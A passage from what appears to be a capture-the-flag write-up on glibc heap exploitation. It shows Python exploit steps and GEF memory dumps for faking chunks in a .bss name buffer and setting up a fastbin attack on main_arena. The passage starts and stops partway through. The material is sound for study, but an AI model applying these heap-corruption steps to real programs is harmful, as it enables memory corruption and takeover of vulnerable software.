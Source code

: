 ```c
    }
```

#### So how do we do it?

First step is to empty out the unsorted bin. This is because the fake chunk that we have on the name variable is very important for this exploit. We'll be modifying it numerous times, which is guaranteed to corrupt the unsorted bin, therefore we empty it now to prevent the program from trying to get any chunks out of a corrupted unsorted bin.

I do this by first changing its size to 0x61, then allocating a 0x58 sized chunk.
```python
# We don't want subsequent allocations to come out of the unsorted bin
# Since we will use our fake chunk a lot, it is guaranteed to be corrupted.
# Any subsequent mallocs will then just crash if the unsorted bin is used
# Therefore, just empty out the unsorted bin here by first changing its size to 0x61
# Then we allocate a 0x58 sized chunk
reintroduce(p64(0) + p64(0x61) + p64(leak) + p64(leak) + p64(0)*9 + p64(0x21))
add(0x58, 'A'*0x58) # 7
```

Next, I fake a 0x20 sized chunk and free it. This will fill up the 0x20 sized fastbin in `main_arena`. Since this fake chunk has an address starting with 0x60 (due to our name array being at the address 0x602040), we can get a fake chunk right inside `main_arena`.

I also fake a 0x61 sized chunk and free that in preparation for the fastbin attack that we will do to get the chunk in `main_arena`. Notice how useful this name variable is being?
```python
# We fake a 0x20 sized chunk and free it. This will be our fake chunk in main_arena.
# The main arena's fastbin[2], which is the 0x20 fastbin, will have a pointer to this chunk.
# Remember this chunk is in the .bss segment, so its address is 0x602040.
reintroduce(p64(0) + p64(0x31) + p64(0x21)*8)
free(6)

# Now we free a 0x61 sized chunk to prepare for the fastbin attack
reintroduce(p64(0) + p64(0x61) + p64(0x21)*18)
free(6)

# This is the address where the 0x602040 address from above looks 16 byte aligned
fake_chunk_top = main_arena + 0x10 - 0x6
```
```c
// main_arena = 0x7f19ee5d4b20
gef➤  x/12gx 0x7f19ee5d4b20          .--------------------- Our freed 0x20 chunk
0x7f19ee5d4b20: 0x0000000000000000   |  0x0000000000000000
0x7f19ee5d4b30: 0x0000000000602040 <-   0x0000000000000000
0x7f19ee5d4b40: 0x0000000000000000      0x0000000000602040
0x7f19ee5d4b50: 0x0000000000000000      0x0000000000000000
0x7f19ee5d4b60: 0x0000000000000000      0x0000000000000000
0x7f19ee5d4b70: 0x0000000000000000      0x00000000011e3120
gef➤  x/12gx 0x7f19ee5d4b20 + 0x10 - 0x6
0x7f19ee5d4b2a: 0x2040000000000000      0x0000000000000060 <- looks like a fake chunk
0x7f19ee5d4b3a: 0x0000000000000000      0x2040000000000000
0x7f19ee5d4b4a: 0x0000000000000060      0x0000000000000000
0x7f19ee5d4b5a: 0x0000000000000000      0x0000000000000000
0x7f19ee5d4b6a: 0x0000000000000000      0x3120000000000000
0x7f19ee5d4b7a: 0x000000000000011e      0x4b78000000000000
```
